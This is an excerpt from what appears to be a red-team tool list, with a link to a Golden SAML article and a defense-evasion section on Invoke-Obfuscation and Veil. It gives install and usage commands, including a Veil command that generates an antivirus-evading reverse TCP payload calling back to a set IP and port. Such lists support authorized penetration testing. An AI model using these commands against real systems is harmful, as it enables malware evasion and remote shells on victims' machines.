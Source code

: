 [Blog - Exploring the Golden SAML Attack Against ADFS](https://www.orangecyberdefense.com/global/blog/cloud/exploring-the-golden-saml-attack-against-adfs)

![image](https://user-images.githubusercontent.com/100603074/212204724-65da5505-3576-4e6d-91ab-989b96247182.png)

_Image used from https://www.orangecyberdefense.com/global/blog/cloud/exploring-the-golden-saml-attack-against-adfs_

# Defense Evasion

### [🔙](#tool-list)[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

A PowerShell v2.0+ compatible PowerShell command and script obfuscator. If a victim endpoint is able to execute PowerShell then this tool is great for creating heavily obfuscated scripts.

**Install:**

```bash
git clone https://github.com/danielbohannon/Invoke-Obfuscation.git
```

**Usage:**

```bash
./Invoke-Obfuscation
```

![image](https://user-images.githubusercontent.com/100603074/206557377-a522ab7a-5803-48b0-8f3e-d7d7b607e692.png)

### [🔙](#tool-list)[Veil](https://github.com/Veil-Framework/Veil)

Veil is a tool for generating metasploit payloads that bypass common anti-virus solutions.

It can be used to generate obfuscated shellcode, see the official [veil framework blog](https://www.veil-framework.com/) for more info.

**Install: (Kali)**

```bash
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

**Install: (Git)**

```bash
sudo apt-get -y install git
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/
./config/setup.sh --force --silent
```

**Usage:**

```bash
# List all payloads (–list-payloads) for the tool Ordnance (-t Ordnance)
./Veil.py -t Ordnance --list-payloads

# List all encoders (–list-encoders) for the tool Ordnance (-t Ordnance)
./Veil.py -t Ordnance --list-encoders

# Generate a reverse tcp payload which connects back to the ip 192.168.1.20 on port 1234
./Veil.py -t Ordnance --ordnance-payload rev_tcp --ip 192.168.1.20 --port 1234

# List all payloads (–list-payloads) for the tool Evasion (-t Evasion)
./Veil.py -t Evasion --list-payloads

```